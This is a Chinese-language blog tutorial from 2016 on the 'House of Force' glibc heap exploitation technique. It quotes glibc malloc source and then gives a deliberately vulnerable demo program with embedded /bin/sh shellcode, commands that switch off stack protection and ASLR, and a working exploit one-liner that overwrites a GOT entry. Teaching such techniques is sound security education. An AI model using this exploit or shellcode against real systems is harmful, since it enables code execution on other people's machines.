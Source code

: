 ```yaml
---
title: house of force
date: 2016-10-15 12:30:46
tags: 
- heap
- exploit
categories:
- heap_exploit
author: wolfzhang
---
```


趁着最近把博客搭起来了，把堆的利用方式 “house of *” 系列记录一下。
因为house of force较简单，比较容易满足利用条件，所以先记录一下此利用方式。

## 利用条件

1. 能覆盖top chunk的chunk header。
2. 可调用多次malloc(n)，n可以控制。

## 利用详解

house of force的核心是覆盖av->top的size字段，然后malloc(n)，重写av->top的值, 进而让malloc返回的指针可控。这样就可以达到任意地址写了。
我们来看一下glic中的相关代码。
<!-- more -->

```c

static void* _int_malloc(mstate av, size_t bytes)

{

  INTERNAL_SIZE_T nb;             /* normalized request size */

  mchunkptr       victim;         /* inspected/selected chunk */

  INTERNAL_SIZE_T size;           /* its size */

  mchunkptr       remainder;      /* remainder from a split */

  unsigned long   remainder_size; /* its size */

  checked_request2size(bytes, nb);

  [...]

  victim = av->top;

  size = chunksize(victim);

  if ((unsigned long)(size) >= (unsigned long)(nb + MINSIZE))

  {

    remainder_size = size - nb;

    remainder = chunk_at_offset(victim, nb);

    av->top = remainder;

    set_head(victim, nb | PREV_INUSE | (av!=&main_arena ? NON_MAIN_ARENA : 0));

    set_head(remainder, remainder_size | PREV_INUSE);


    check_malloced_chunk(av, victim, nb);

    void *p = chunk2mem(victim);

    if (__builtin_expect (perturb_byte, 0))
      alloc_perturb (p, bytes);

    return p;
  }

  [...]
}
```
如果要满足if条件继续执行下面的代码，我们可以把top chunk的size字段覆盖为FFFFFFFF，这样无论如何都会执行这部分代码。
然后下面会执行chunk_at_offset(victim, nb):
```c
/* Treat space at ptr + offset as a chunk */
#define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s)))
```
这里的nb需要转化，并不是malloc(size)的size，需要经过以下转化：
```c
#define checked_request2size(req, sz)                             \
  if (REQUEST_OUT_OF_RANGE (req)) {                               \
      __set_errno (ENOMEM);                                       \
      return 0;                                                   \
    }                                                             \
  (sz) = request2size (req);

#define request2size(req)                                         \
  (((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE)  ?             \
   MINSIZE :                                                      \
   ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)
```
然后我们在malloc时通过精心构造一个数值，改写av->top的值为got表的地址（其实是got_addr-8)，然后再malloc时返回的指针就是got表的地址了。最后如果有read，strcpy之类的函数就可以把got表地址改为shellcode的地址。

## 利用举例

这里拿个例子详细说明下：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

char shellcode[25] = "\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80";

int main(int argc, char *argv[])
{
    printf("shellcode_addr = %p\n", shellcode);
    char *buf1, *buf2, *buf3;

    if (argc != 4) 
    {
        exit(0);
    }

    buf1 = malloc(256);
    printf("buf1_addr = %p\n", buf1);
    printf("top_chunk_addr = %p\n", buf1 + 256);
    strcpy(buf1, argv[1]);
    getchar();

    printf("allocated 0x%08x bytes for buf2\n", strtoul(argv[2], NULL, 16));
    buf2 = malloc(strtoul(argv[2], NULL, 16));
    getchar();

    printf("buf2_addr = %p\n", buf2);
    buf3 = malloc(256);
    printf("buf3_addr = %p\n", buf3);
    strcpy(buf3, argv[3]);   
    
    getchar();
    read(0, buf3, 10);
    return 0;
}
```
为了方便我们把栈保护，DEP和ALSR关了。
相关操作为：gcc -fno-stack-protector -z execstack -o force house-of-force.c，echo 0 > /proc/sys/kernel/randomize_va_space。

首先覆盖top chunk的size字段，可以输入"a"*260+\xff\xff\xff\xff"，如果最后有调用free函数要注意了，因为可能会出现double free or corruption （out）的情况，解决方案是你要控制好第二个参数的值。
接下来就是重写av->top的值了，read@got的值为0x08049988，旧的top值为0x804a108，所以第二次malloc时经过转化后的nb的值为：read@got - 8 - top = fffff878. malloc的用户请求大小应该再减去8(大多数情况是减8，除去pre_size和size字段)
。最后再malloc一次返回的指针就是read@got的值了。然后跳转到shellcode处就可以了。

最终的exploit：
```shell
./force `python -c 'print "a"*260+"\xff\xff\xff\xff"'` fffff870 `python -c 'print "\xb0\x99\x04\x08"'`
```
执行结果如下：
<img src="http://of38fq57s.bkt.clouddn.com/house-of-force.PNG">

## 相关参考

相关习题：[bcloud](http://w0lfzhang.me/2017/03/18/2016-BCTF-bcloud/)

参考链接：[X86 EXPLOITATION 101: “HOUSE OF FORCE” – JEDI OVERFLOW](https://gbmaster.wordpress.com/2015/06/28/x86-exploitation-101-house-of-force-jedi-overflow/)


